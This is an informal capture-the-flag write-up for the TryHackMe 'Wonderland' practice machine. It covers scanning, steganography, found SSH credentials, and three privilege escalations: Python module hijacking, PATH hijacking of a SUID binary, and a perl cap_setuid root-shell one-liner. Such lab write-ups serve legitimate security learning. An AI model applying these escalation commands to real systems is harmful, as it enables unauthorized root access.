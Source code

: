 #tryhackme #ctf 
# Wonderland
---

## Nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)

Inspect page source
found:
/img
main.css

## Gobuster
/img
/r
/poem

/img -> director listing available
3 files:
    alice_door.jpg
    alice_door.png
    white_rabbit_1.jpg

/r:
> Keep Going.
>
> "Would you tell me, please, which way I ought to go from here?"

/poem -> a long boring poem

## Steghide
Using steghide to try to extract info from images
white\_rabbit\_1.jpg -> hint.txt

> follow the r a b b i t

## Feroxbuster
Found dir <machine-ip>/r/a/b/b/i/t

Inspect page source - found creds:
> alice:HowDothTheLittleCrocodileImproveHisShiningTail

Use the creds to ssh: ;)

**alice@wonderland**
found two files in $HOME:
-rw------- 1 root root   66 May 25  2020 root.txt
-rw-r--r-- 1 root root 3577 May 25  2020 walrus\_and\_the\_carpenter.py

`sudo -l`: 
> Matching Defaults entries for alice on wonderland:
>    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
>
> User alice may run the following commands on wonderland:
>     (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

We can read the walrus\_and\_the\_carpenter.py file
it starts with import random and prints 10  random lines from the poem

What if we make a random.py in the same directory so it gets executed when the script is run as rabbit
	
```python
# random.py

import os
os.system('/bin/bash')
```

now run this as 
`
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
`

Got shell as rabbit :o

Found 1 file with SUID:
-rwsr-sr-x 1 root root 16816 May 25  2020 teaParty

run this
`./teaParty`

> Welcome to the tea party!
> The Mad Hatter will be here soon.
> Probably by Fri, 17 Sep 2021 06:51:31 +0000
> Ask very nicely, and I will give you some tea while you wait for him

Read the binary: it is calling the 'date' binary without specifying the full path
We can make a date file in /tmp and add /tmp in the $PATH variable so the SUID binary will look inside /tmp when some binary is called

`
/tmp/date

#!/bin/bash
/bin/bash
`

Change permissions: chmod 777 /tmp/date

Got shell as Hatter :O

cd to /home/hatter
found password.txt
> WhyIsARavenLikeAWritingDesk?

ssh into hatter using the found passwd

run linpeas.sh again
found cap\_setuid available for /usr/bin/perl

use this to gain shell
`/usr/bin/perl -e "use POSIX qw(setuid); POSIX::setuid(0); exec '/bin/sh';"`

Gained root shell :D

cd into /home/alice/ to find root.txt

[DONE]
